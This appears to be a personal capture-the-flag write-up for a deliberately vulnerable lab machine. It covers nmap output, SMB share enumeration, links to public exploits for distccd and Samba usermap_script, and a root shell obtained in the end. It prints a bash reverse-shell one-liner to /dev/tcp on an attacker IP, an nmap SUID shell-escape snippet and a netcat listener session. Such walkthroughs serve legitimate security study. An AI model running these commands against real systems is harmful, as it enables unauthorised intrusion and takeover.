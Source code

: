 # recon
- ports
```
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
  - details
```
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```
- ftp:
  - vsftpd 2.3.4
  - empty with `ls -la`
```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
553 Could not create file.
```
- smb:
  - Samba smbd 3.0.20-Debian
  - [CVE-2007-2447](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
```
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.10.10.3\ADMIN$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\IPC$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|   \\10.10.10.3\opt: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|   \\10.10.10.3\tmp: 
|     Type: STYPE_DISKTREE
|     Comment: oh noes!
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|_    Anonymous access: READ/WRITE
```
-  distccd v1
   -  [CVE-2004-2687](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)


# foot hold.
should ur path, there is 3 exloit that you can use. if you aim for oscp, dont use metasploit if you dont have too. I choosen to use `CVE-2004-2687` to get foothold. I try to use suid to priv esc to gain root but it did work... 
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/nmap -~> https://gtfobins.github.io/gtfobins/nmap/#suid
------------------------------


[&] Manual Exploitation (Binaries which create files on the system)
------------------------------
[&] Nmap ( /usr/bin/nmap )
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
/usr/bin/nmap --script=$TF

------------------------------
```
just dump
```bash
bash -i >& /dev/tcp/10.10.14.12/6969 0>&1
```
## root
so suid didnt works, I took one step backward and go thru recon's result. I then choose to use `CVE-2007-2447` to gain root access using this script on github https://github.com/amriunix/CVE-2007-2447. it is straight forward, `wget` the exploit and `pip` all requriment. `readme.md` explain how to use the script clearly

```
bibo318@parrot:~/script$nc -nlvp 6969h
listening on [any] 6969 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.3] 52344
whoami
root
```